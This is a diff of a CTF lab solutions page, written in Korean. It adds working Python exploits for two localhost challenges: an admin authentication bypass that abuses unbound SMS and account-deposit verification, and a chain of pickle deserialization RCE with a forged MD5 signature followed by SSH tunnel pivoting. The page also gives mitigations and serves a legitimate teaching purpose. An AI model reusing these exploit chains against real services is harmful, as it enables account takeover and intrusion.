

Before and after one commit to JaewookYou/arang-edu-challs-collection, a Markdown page: solution/SOLUTIONS.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
solution: authbypass-advanced·secret-tunnel 상세 풀이(실익스플로잇 검증) 추가
Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

````diff
--- a/solution/SOLUTIONS.md
+++ b/solution/SOLUTIONS.md
@@ -266,16 +266,66 @@ curl -s "http://localhost:9711/sys/exec-9f3a?key=Zx9_d3c0mp1l3_th1s_k3y_2026&cmd
 ```
 - **대응**: 간편비번 등록을 인증된 세션 사용자(`session['userid']`)로만 허용.
 
-### authbypass-advanced (:9005) — 강화판 (SMS + 계좌 1원 다중인증)
-- **변경점**: basic 우회 패치(`register_simplepass` 의 userid 가 `session['authid']` 로 고정) + **SMS·계좌1원 2중 인증** 추가.
-- **취약점(핵심)**: 인증 대상(`authid` = `register_simplepass?userid=` 인자)과 인증요소가 느슨하게 묶이고, **1원 입금 인증코드가 거래내역에 `계좌인증(XXXX)` 로 그대로 노출**(`transfer_history`).
-- **풀이(개요)**:
+### authbypass-advanced (:9005) — 강화판 (SMS + 계좌 1원 다중인증)  ✓ 실익스플로잇 검증됨
+- **변경점(패치)**: basic 의 폼-userid 결함을 막아 `register_simplepass` 가 `userid=session['authid']` 로 동작. 추가로 **SMS 인증 + 계좌 1원 인증** 2중 도입.
+- **취약점(핵심)**: 등록 대상 `authid`(= `register_simplepass?userid=` 로 세션 저장)와 인증요소가 **바인딩되지 않음**.
+  - SMS 2FA 결과 `session['2factor_success']` 는 단순 불리언 → *내 계정으로* 통과시켜도 됨(누구의 인증인지 검사 안 함).
+  - 계좌 1원 인증코드가 `send_acctauth_msg` **응답에 그대로 노출**(`send auth num success <4자리>`), 입금은 `authid`(admin) 계좌로.
+  - 즉 "내 폰으로 SMS 통과 + admin 1원코드 응답 노출"로 **admin 의 간편비번을 등록**.
+- **풀이(파이썬, 표준 라이브러리)**:
+```python
+import urllib.request, urllib.parse, http.cookiejar, re
+B="http://localhost:9005"
+op=lambda: urllib.request.build_opener(urllib.request.HTTPCookieProcessor(http.cookiejar.CookieJar()))
+post=lambda o,u,d: o.open(u,urllib.parse.urlencode(d).encode(),timeout=10).read().decode()
+get =lambda o,u: o.open(u,timeout=10).read().decode()
+
+s=op(); u="hacker"; pw="pw12345"
+post(s,B+"/register",{"userid":u,"userpw":pw}); post(s,B+"/login",{"userid":u,"userpw":pw})
+phone=re.search(r"018-\d{4}-\d{4}", get(s,B+"/my")).group(0)          # 내 폰번호
+get(s,B+"/register_simplepass?userid=admin")                         # ① authid=admin 저장
+# ② SMS 2FA — 내 계정으로 통과(2factor_success). 자기 폰 코드만 읽힘.
+get(s,B+"/api/send_smsauth_msg?phonenum="+phone)
+code=get(s,B+"/api/get_sms_msg?phonenum="+phone).strip()
+post(s,B+"/smsauth",{"userid":u,"phonenum":phone,"authnum":code})
+# ③ 계좌 1원 인증 — authid(admin)에게 1원 + 코드가 응답에 노출
+acct=re.search(r"success\s+(\d{4})", get(s,B+"/api/send_acctauth_msg")).group(1)
+post(s,B+"/acctauth",{"authnum":acct})
+# ④ admin 간편비번 등록 → simplepass_key 확보
+key=re.search(r"simplepass_key','([0-9a-f]+)'",
+        post(s,B+"/register_simplepass",{"simplepass1":"123456","simplepass2":"123456"})).group(1)
+# ⑤ admin 으로 간편로그인 → getflag
+a=op(); post(a,B+"/login_simplepass",{"simplepass_key":key,"simplepass":"123456"})
+print(re.search(r"flag\{[^}]+\}", get(a,B+"/getflag")).group(0))      # → flag{...}
 ```
-1) GET /register_simplepass?userid=admin           # authid=admin 지정
-2) SMS 인증 우회(messages 흐름) → /smsauth 통과 → /acctauth 로 이동
-3) 계좌 1원 인증: send_acctauth 가 내 계좌에 1원 입금(from_address=4자리 코드).
-   /transfer_history 에서 '계좌인증(XXXX)' 4자리 코드 확인 →
-   POST /acctauth  authnum=<XXXX>                  # acctauth_success
-4) POST /register_simplepass  simplepass1=123456&simplepass2=123456  # admin 간편비번 등록
-5) POST /login_simplepass → admin → GET /getflag → flag{...}
+- **대응**: 인증요소(SMS·계좌)를 등록 대상(`authid`)·동일 세션·동일 사용자로 강하게 바인딩 · 인증코드 응답/내역 비노출.
+
+### secret-tunnel (:8090, SSH :2222) — 캡스톤 (역직렬화 RCE → SSH 터널 피벗)  ✓ 실익스플로잇 검증됨
+- **구성**: `extserver`(외부망·web+ssh) → `intserver`(외부+내부망·ctfuser=restricted shell) → `flagserver`(내부망 **전용**·flaguser/암호·`/home/flaguser/flag.txt`).
+- **취약점(체인)**:
+  - ① `extserver /process` 가 서명검증 후 `pickle.loads` → **역직렬화 RCE**. 서명키 `SECRET_KEY="very_secret_key_do_not_guess"` 하드코딩 → `md5(data+KEY)` 로 **서명 위조**.
+  - ② extserver 에 `id_rsa` 유출(intserver ctfuser 가 같은 공개키 신뢰).
+  - ③ ctfuser 쉘이 restricted 라도 `AllowTcpForwarding yes` → **scp·SSH 터널은 동작**(쉘 우회).
+- **풀이(파이썬)**:
+```python
+import pickle, base64, hashlib, subprocess, urllib.request, urllib.parse
+KEY="very_secret_key_do_not_guess"
+def rce(cmd):                       # 위조서명 + pickle RCE — 명령 출력이 응답으로 반환
+    full="("+cmd+") 2>&1; true"     # check_output 은 비0 종료 시 500 → '; true' 로 감쌈
+    class E:
+        def __reduce__(self): return (subprocess.check_output, (['sh','-c',full],))
+    data=base64.b64encode(pickle.dumps(E())).decode()           # 바이트에 'pickle' 만 없으면 필터 통과
+    sig=hashlib.md5((data+KEY).encode()).hexdigest()
+    body=urllib.parse.urlencode({"data":data,"signature":sig}).encode()
+    return urllib.request.urlopen("http://localhost:8090/process",body,timeout=50).read().decode()
+
+O="-o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o ConnectTimeout=8"
+# ① intserver 에서 flagserver 비번 scp (restricted shell 이어도 scp 동작) → secretpassword1!
+rce("scp -i /home/appuser/.ssh/id_rsa %s ctfuser@intserver:/home/ctfuser/flagserver_password.txt /tmp/pw" % O)
+# ② intserver 경유 flagserver:22 터널(키인증) + flagserver 비번(askpass, sshpass 없음) → flag
+proxy="ssh -i /home/appuser/.ssh/id_rsa "+O+" -W %h:%p ctfuser@intserver"
+chain=("printf '#!/bin/sh\\necho secretpassword1!\\n'>/tmp/ap; chmod +x /tmp/ap; "
+       "SSH_ASKPASS=/tmp/ap SSH_ASKPASS_REQUIRE=force DISPLAY=x "
+       "ssh "+O+" -o ProxyCommand=\""+proxy+"\" flaguser@flagserver 'cat /home/flaguser/flag.txt'")
+print(rce(chain))      # → flag{...}
 ```
````
Also changed, not shown: other parts of solution/SOLUTIONS.md (+2 -15 lines).
